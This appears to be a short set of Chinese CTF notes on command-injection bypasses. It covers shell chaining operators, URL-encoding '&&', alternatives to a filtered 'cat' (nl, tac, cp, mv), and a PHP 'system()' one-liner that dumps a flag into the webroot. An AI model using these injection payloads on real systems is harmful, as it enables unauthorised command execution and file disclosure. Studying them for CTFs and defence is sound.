 # 命令执行

## 花式绕过

### 符号绕过

[命令执行漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/company-information/228881.html)

```
windows 或 linux 下:
command1 && command2 先执行 command1，如果为真，再执行 command2
command1 | command2 只执行 command2
command1 & command2 先执行 command2 后执行 command1
command1 || command2 先执行 command1，如果为假，再执行 command2
命令执行漏洞（| || & && 称为 管道符）
command1 ; command2 执行command1结束后执行command2
```

-  有时候find / -name "flag"可能找不到，试试改变后缀 

```
find / -name "flag.txt"
find / -name "flag.php"
```


-  &&用的时候需要变成url编码，%26%26 

### 绕过cat(需要查看源代码)

#### nl命令

`nl`可以将输出的文件内容自动的加上行号

#### tac命令

#### cp命令

#### mv命令

-  mv是重命名 

```
mv flag.php 1.txt
```


-  直接访问1.txt即可 

#### 直接执行

- 如果一个文件名是readflag，在根目录下，无后缀，那么用cat可能查看不了，那么直接执行，将输出的结果放到1.txt中

```php
<?php system('/readflag > /var/www/html/1.txt')?>
```
